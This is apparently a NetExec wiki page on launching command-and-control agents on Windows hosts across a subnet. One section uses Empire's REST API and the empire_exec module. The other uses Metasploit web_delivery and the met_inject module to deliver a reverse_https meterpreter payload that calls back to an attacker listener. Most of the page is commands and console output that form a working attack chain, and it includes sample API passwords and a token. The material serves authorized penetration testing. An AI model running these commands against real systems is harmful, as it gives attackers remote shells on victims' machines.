 # Empire Agent

### We can use the empire_exec module to execute an Empire Agent's initial stager. In the background, the module connects to Empire's RESTful API, generates a launcher for the specified listener and executes it.

## 1) First, setup the rest API:

#### #~ python powershell-empire --rest --user empireadmin --pass Password123!

[*] Loading modules from: /home/mpgn/Tools/Empire/lib/modules/

 * Starting Empire RESTful API on port: 1337
 
 * RESTful API token: l5l051eqiqe70c75dis68qjheg7b19di7n8auzml
 
 * Running on https://0.0.0.0:1337/ (Press CTRL+C to quit)

## 2) Second, setup a listener


(Empire: listeners) > set Name test

(Empire: listeners) > set Host 192.168.10.3

(Empire: listeners) > set Port 9090

(Empire: listeners) > set CertPath data/empire.pem

(Empire: listeners) > run

(Empire: listeners) > list

[*] Active listeners:

  ID    Name              Host                                 Type      Delay/Jitter   KillDate    Redirect Target
  --    ----              ----                                 -------   ------------   --------    ---------------
  1     test              http://192.168.10.3:9090                 native    5/0.0                      

(Empire: listeners) > 

### The username and password that nxc uses to authenticate to Empire's RESTful API are stored in the nxc.conf file located at ~/.nxc/nxc.conf:

[Empire]

api_host=127.0.0.1

api_port=1337

username=empireadmin

password=Password123!

[Metasploit]

rpc_host=127.0.0.1

rpc_port=55552

password=abc123

## 3) Then just run the empire_exec module and specify the listener name:

#### #~ NetExec 192.168.10.0/24 -u username -p password -M empire_exec -o LISTENER=test

# Meterpreter

### We can use the metinject module launch a meterpreter using Invoke-MetasploitPayload Invoke-MetasploitPayload.ps1 script.

### On your Metasploit instance, run the following commands

#### use exploit/multi/script/web_delivery

### The SRVHOST and SRVPORT variables are used for running the webserver to host the script

#### set SRVHOST 10.211.55

#### set SRVPORT 8443

### The target variable determines what type of script we're using. 2 is for PowerShell

#### set target 2

### Pick your payload. In this case, we'll use a reverse https meterpreter payload

#### set payload windows/meterpreter/reverse_https

#### set LHOST 10.211.55

#### set LPORT 443

### Run the exploit

#### run -j

### Once run, the web_delivery module will spin up the webserver to host the script and reverse listener for our meterpreter session.

msf exploit(web_delivery) > run -j

[*] Exploit running as background job.


[*] Started HTTPS reverse handler on https://10.211.55.4:8443/

[*] Using URL: http://10.211.55.4:8080/eYEssEwv2D

[*] Local IP: http://10.211.55.4:8080/eYEssEwv2D

[*] Server started.

### Then just run the met_inject module and specify the LHOST and LPORT values:

#### #~ NetExec 192.168.10.0/24 -u username -p password -M met_inject -o SRVHOST=192.168.10.3 SRVPORT=8443 RAND=eYEssEwv2D SSL=http
